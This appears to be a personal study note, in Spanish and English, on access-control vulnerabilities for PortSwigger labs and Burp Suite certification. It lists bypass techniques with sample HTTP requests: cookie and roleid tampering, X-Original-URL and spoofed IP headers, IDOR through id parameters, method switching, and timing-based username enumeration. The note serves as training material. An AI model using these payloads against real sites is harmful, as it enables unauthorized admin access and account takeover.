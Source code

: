 ¿Que es el control de acceso?

El control de acceso es o son las restricciones que se tiene sobre a que cosas o quien puede acceder a ciertos elementos o interfaces, el control de acceso controla ello, el control de acceso depende de la autenticación y la gestión de sesiones:

- **La autenticación**: Confirma que el usuario es quien dice ser.
- **La gestión de sesiones**: identifica que solicitudes HTTP posteriores hace ese usuario.
- **El control de acceso**: Determina si el usuario puede realizar o no tales acciones, tales como solicitudes HTTP especificas.

### Para el caso de URL's Impredecibles

Siempre revisar los DOM de la aplicación, en los <script></script> siempre se pueden encontrar los endpoints a puntos ciegos que se suponen que son impredecibles pero el desarrollador no los sanitizó correctamente.

![[Pasted image 20250215171751.png]]
### Checks a tener en cuenta: 

```js
1. Find /robots.txt
	//Nos aparece el Disallow: /administrator-panel ahora es tan simple como navegar a la interfaz desde la url principal y ver que podemos hacer.

2. /admin route in javascript source code ctr+shift+i
	//es un nombre de interfaz impredecible, pero basta con buscarla en el source code. 

3. cookie modification to become admin (ex: cookie-> Admin:False->Admin:True)
	//El rol de un usuario se puede modificar desde la cookie `admin` 

4. roleid can be modified in some request to become admin role (ex: {"email":"wiener@admin-user.net","roleid":2})
	//Cambiando el #del roleId podemos pasar de user normal a admin user.
	//{"roleId":1 en la POST lo podemos modificar para otro Id.} para be admin

5. Use X-Original-URL to bypass /admin acces denied:
	// GET / HTTP/1.1 OR GET /my-account HTTP/1.1
	// X-Original-URL: /admin 
	//Y así de facil podemos tener acceso a admin. 

6. userid can be controlled by a request parameter (ex: /my-account?id=carlos)
	//Podemos modificarlo por cualquier user, ex:admin

7. unpredictable user Id exposed somewhere - en los post se divulgan los ID's
	//ex: comment href=https://ID-LAB.web-security-academy.net/blogs?userId=9cbae210-99d3-49ea-97c5-4887f8d9b73f)
	//Osea basicamente en los post encontramos ids que podemos probar en el endpoint: 
	//GET /my-account?id=ID-FOUNDED

Information disclosure in a redirection when changing parameters of a request (ex: ?id=carlos = 302)

8. Direct Object references (ex: /download-transcript/X.txt) //Cambiamos el numero del file.txt pa' ver a cual podemos llegar y si se nos revela password.

9. GET /admin-roles?username=VictimUser&action=upgrade HTTP/1.1 
	//Simplemente cambiando el method POST,PUT,DELETE,diferente a GET.
	//este lo podemos modificar para subirle los privilegios a un user victim que es el que queremos aumentarle los privilegios.

10. Password disclosure <hidden> se puede ver en el DOM, con la request GET /my-account?id=wiener se puede cambiar a /my-account?id=administrator
	//Y se actualiza la password hidden por la del nuevo user que se puso en el id. 

11. Change request method to POSTX or GET with parameters ?
Referer token validated being present

12. Si llega a haber un endpoint POST /admin-roles HTTP/2 : Automaticamente tener en cuenta el body, por ejm: 
	//action=upgrade&confirmed=true&username=wiener 
	//para poder subirle los privilegios a un user normal. 

13. Referer Based Access Control
	 GET /admin-roles?username=wiener&action=upgrade con el header R
	 Referer:https://ID-LAB.com/admin 
	//y así podemos subirle los privilegios a un user normal. 
```

### X-original-URL: 

```
Try to load /admin and observe that you get blocked. Notice that the response is very plain, suggesting it may originate from a front-end system.
Send the request to Burp Repeater. Change the URL in the request line to / and add the HTTP header X-Original-URL: /invalid. Observe that the application returns a "not found" response. This indicates that the back-end system is processing the URL from the X-Original-URL header.

Change the value of the X-Original-URL header to /admin. Observe that you can now access the admin page.

To delete carlos, add ?username=carlos to the real query string, and change the X-Original-URL path to /admin/delete.
```

##### Username Enumeration via response timing

If username correct time response will increase every time we increase the password lenght, such as a password of 100 chars.

If blocked attempts, you can bypass it if X-Forwarded-For header is available Select PitchFork attack, X-Forwarded-For with a number payload and username with a wordlist simple payload. Select columns send and recieve time to show the one that was made in more time than the others

Another thing to take into consideration is the resource pool tab, maybe you need to set it to 1 because 10 is to much speed to fetch a correct response.

## Access Control

[JSON roleid PrivEsc](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study?tab=readme-ov-file#privesc-json-roleid)  
[Original URL](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study?tab=readme-ov-file#original-url)  
[Drop Select a role](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study?tab=readme-ov-file#drop-select-a-role)  
[Trace to Admin](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study?tab=readme-ov-file#trace-to-admin)  
[HTB requested I remove my write-up for CPTS Skills assessments - IDOR](https://github.com/botesjuan/cpts-quick-references/blob/main/module/Web-Attacks.md#idor)

### PrivEsc JSON RoleId

> Access control to the admin interface is based on user roles, and this can lead to privilege escalation or access control (IDOR) security vulnerability.

> Capture current logged in user email change email submission request and send to **Intruder**, then add `"roleid":§32§` into the JSON body of the request, and fuzz the possible `roleid` value for administrator access role.

```html
POST /my-account/change-email HTTP/1.1
Host: TARGET.net
Cookie: session=vXAA9EM1hzQuJwHftcLHKxyZKtSf2xCW
Content-Length: 48
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Connection: close

{
 "csrf":"u4e8f4kc84md743ka04lfos84",
 "email":"carlos@server.net",
 "roleid": 42
}
```

> The Hitchhiker's Guide to the Galaxy answer was [42](https://en.wikipedia.org/wiki/Phrases_from_The_Hitchhiker%27s_Guide_to_the_Galaxy#42_Puzzle)

[![Intruder Payload set to identify Admin role ID](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/intruder-payload-positions.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/intruder-payload-positions.png)

> Attacker _**identify**_ the possible role ID of administrator role and then send this request with updated roleId to privilege escalate the current logged in user to the access role of administrator.

[![Attack identify Admin role ID](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/admin-roleid-privesc.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/admin-roleid-privesc.png)


> See [API Mass assignment lab exercises](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study?tab=readme-ov-file#exploiting-a-mass-assignment) to alter JSON values by inserting additional fields in JSON POST data.

### Drop Select a role

> Escalation to administrator is sometimes controlled by a role selector GET request, by **dropping** the `Please select a role` GET request before it is presented to the user, the default role of **admin** is selected by back-end and access is granted to the admin portal.

[![Select a role](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/select-a-role.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/select-a-role.png)

[PortSwigger Lab: Authentication bypass via flawed state machine](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-authentication-bypass-via-flawed-state-machine)

### Original URL

> Admin portal only accessible from internal. _**Identify**_ if access control can be bypassed using header `X-Original-URL`, observe different response to `/admin` endpoint requests depending on header value.

```
X-Original-URL: /admin
```

[![x-original-url](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/x-original-url.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/x-original-url.png)
### Trace to Admin

> Unable to reach `/admin` portal, but when changing the GET request to `TRACE /admin` this response contain an `X-Custom-IP-Authorization:` header.  
> Use the _**identified**_ header to by access control to the admin authentication.

[![trace info](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/trace-info.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/trace-info.png)
```
GET /admin HTTP/2
Host: TARGET.net
X-Custom-Ip-Authorization: 127.0.0.1
Cookie: session=2ybmTxFLPlisA6GZvcw22Mvc29jYVuJm
```
